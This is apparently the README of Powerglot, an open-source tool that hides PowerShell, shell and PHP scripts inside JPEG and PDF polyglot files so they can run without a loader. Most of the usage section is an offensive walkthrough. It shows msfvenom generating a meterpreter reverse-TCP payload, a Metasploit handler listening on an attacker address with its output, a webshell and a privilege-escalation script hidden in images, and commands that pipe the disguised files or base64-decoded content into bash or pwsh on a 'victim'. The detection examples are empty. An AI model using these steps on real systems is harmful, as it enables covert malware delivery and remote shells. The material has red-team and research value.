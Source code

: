 # Powerglot

Powerglot encodes several kind of scripts using polyglots, for example, offensive powershell scripts. It is not needed a loader to run the payload.

In red-team exercises or offensive tasks, masking of payloads is usually done by using steganography, especially to avoid network level protections, being one of the most common payloads scripts developed in powershell. Recent malware and APTs make use of some of these capabilities: APT32, APT37, Ursnif, Powload, LightNeuron/Turla, Platinum APT, Waterbug/Turla, Lokibot, The dukes (operation Ghost), Titanium, etc.

Powerglot is a multifunctional and multi-platform attack and defense tool based on polyglots. Powerglot allows to mask a script (powershell, shellscripting, php, ...) mainly in a digital image, although other file formats are in progress. Unlike the usual offensive tools or malware, Powerglot does not need any loader to execute the "information hidden", minimizing the noise on the target system.

PowerGlot has a clear utility in offensive tasks but it is also defined as a discovery and blue team tool. To our knowledge, it is the first general and complete open-source tool that allows to search for the presence of masked information with polyglots, information that could be useful to achieve persistence in a system or to hide malware (stego-malware, privilege escalation, lateral movement, reverse shell, etc.)

Features:
- Encode powershell/shell script/php/.. in a polyglot image. It is not necessary a loader to recover/execute the hidden information (payload). PowerGlot works with several formats. Mainly, JPEG format.

- Powerglot is a complete open-source tool to detect (malicious) polyglots, specially the result of some public tools as Truepolyglot or stegoSploit. We works in several formats: JPEG, PNG, GIF, BMP, ZIP, PDF, MP3, etc.

# Installation
```
# git clone https://github.com/mindcrypt/powerglot
# python3 powerglot
```
# Usage & Parameters

Some examples to hide payloads using polyglots with Powerglot
```
# Example 1 - Hiding a powershell/php/shell script in a JPEG image

# python3 powerglot.py -o meterpreter.ps1 cat.jpg cat-hidden1.jpg
# python3 powerglot.py -o webshell.php cat.jpg cat-hidden2.jpg
# python3 powerglot.py -o shell.sh cat.jpg cat-hidden3.jpg
```
```
# Example 2 - Hiding a shell script (linenum.sh) for privilege escalation "hidden" in a JPEG image

# python3 powerglot.py -o linenum.sh cat.jpg cat-linenum.jpg
# file cat-linenum.jpg (It is a valid JPEG file)
# feh cat-lineum.jpg (The image is properly showed in an image viewer)

# We can execute the script in several ways:

a) cat cat-linenum | bash
b) chmod +x cat-linenum.jpeg; ./cat-linenum.jpeg

```
```
# Example 3 - Encoding a powershell script in a JPEG image. For example, a meterpreter

# SERVER: Steps in the attacker  --------------------------> No FUNCIONAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

# Prepare the payload and configure the server to receive a meterpreter connection

#msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=4444 -f psh > meterpreter.ps1

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 123 bytes
Final size of psh file: 1341 bytes

# python3 ../powerglot.py -o meterpreter.ps1 cat.jpeg cat-ps.jpeg
# file cat-ps.jpeg 
cat-ps.jpeg: JPEG image data, JFIF standard 1.01, resolution (DPI), density 328x328, segment length 291, thumbnail 1x1, comment: "cmp3.9.27.0Lq4 0xa362b87a", baseline, precision 8, 1000x563, components 3

# msfconsole
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload linux/
Display all 103 possibilities? (y or n)
msf5 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 10.0.2.15                                                                 
lhost => 10.0.2.15                                                                                                
msf5 exploit(multi/handler) > set port 4444
port => 4444                                                                                                      
msf5 exploit(multi/handler) > exploit                                                                             
                                                                                                                  
[*] Started reverse TCP handler on 10.0.2.15:4444     

# LINUX VICTIM
# Download cat-o.jpg
# Execute 
# pwsh cat-o.jpg or cat cat-o.jpg | pwsd
```

```
# Example de polyglot in PDF



# Create b64.sh with your favourite payload
base64 Linenum.sh -w 0 > b64.sh
# Edit b64.sh
echo "code in b64.sh" | base64 -d | bash;

# python3 powerglot -o b64.sh sample.pdf test.pdf
# file test.pdf
# xpdf test.pdf

# Execute payload
# cat test.pdf | bash or chmod +x test.pdf; ./test.pdf



```
Some examples to detect polyglots in our filesystem
```
```

# Future work. Doing
- We are working to support different file formats for encoding information in polyglots. Currently, we support several techniques in JPEG and PDF.
- We are working to incorporate rules for the detection of polyglots in different formats. Currently, the presence of StegoSploit in JPEG files is detected.

# Author & license

This project has been developed by Dr. Alfonso Muñoz and Abraham Pasamar. The code is released under the GNU General Public License v3.


